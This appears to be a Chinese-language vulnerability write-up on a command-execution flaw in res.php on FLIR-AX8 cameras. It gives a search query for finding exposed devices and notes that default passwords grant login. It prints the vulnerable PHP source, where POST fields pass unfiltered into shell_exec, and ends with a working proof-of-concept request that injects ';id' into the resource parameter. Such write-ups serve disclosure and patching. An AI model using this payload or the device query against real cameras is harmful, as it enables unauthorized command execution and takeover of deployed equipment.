

FLIR-AX8 res.php 后台命令执行漏洞¶
漏洞描述¶
FLIR-AX8 res.php 文件存在后台命令执行漏洞，攻击者通过默认口令登录后台后获取服务器权限
漏洞影响¶
FLIR-AX8
网络测绘¶
app="FLIR-FLIR-AX8"
漏洞复现¶
登录页面

出现漏洞的文件为 res.php
<?php
if (isset($_POST["action"])) {
switch ($_POST["action"]) {
case "get":
if(isset($_POST["resource"]))
{
switch ($_POST["resource"]) {
case ".rtp.hflip":
if (!file_exists("/FLIR/system/journal.d/horizontal_flip.cfg")) {
$result = "false";
break;
}
$result = file_get_contents("/FLIR/system/journal.d/horizontal_flip.cfg") === "1" ? "true" : "false";
break;
case ".rtp.vflip":
if (!file_exists("/FLIR/system/journal.d/vertical_flip.cfg")) {
$result = "false";
break;
}
$result = file_get_contents("/FLIR/system/journal.d/vertical_flip.cfg") === "1" ? "true" : "false";
break;
default:
$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -o ".$_POST["resource"]));
}
}
break;
case "set":
if(isset($_POST["resource"]) and isset($_POST["value"])) {
switch ($_POST["resource"]) {
case "rtp.hflip":
file_put_contents("/FLIR/system/journal.d/horizontal_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
break;
case "rtp.vflip":
file_put_contents("/FLIR/system/journal.d/vertical_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
break;
default:
$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rset ".$_POST["resource"]." ".$_POST["value"]));;
}
}
break;
case "measurement":
if (isset($_POST["type"]) && isset($_POST["id"])) {
$nodeData = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.measureFuncs.".$_POST["type"].".".$_POST["id"]));
$lines = explode("\n", $nodeData);
foreach($lines as $line)
{
$resource = preg_split('/\s+/', $line);
$value = trim($resource[1], "\"");
$result[$resource[0]] = $value;
}
}
break;
case "global-parameters":
$nodeData = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.basicImgData.objectParams"));
$lines = explode("\n", $nodeData);
foreach($lines as $line)
{
$resource = preg_split('/\s+/', $line);
$result[$resource[0]] = $resource[1];
}
case "alarm":
if(isset($_POST["id"]))
{
$nodeData = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls .image.sysimg.alarms.measfunc.".$_POST["id"]));
$lines = explode("\n", $nodeData);
foreach($lines as $line)
{
$resource = preg_split('/\s+/', $line);
$value = trim($resource[1], "\"");
$result[$resource[0]] = $value;
}
}
break;
case "calibrate":
$result = shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/nuc");
break;
case "node":
$nodes = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls ".$_POST["resource"]));
$result = preg_split("/\s+\n/", $nodes);
break;
}
echo json_encode($result);
}
?>
验证POC
POST /res.php
action=node&resource=;id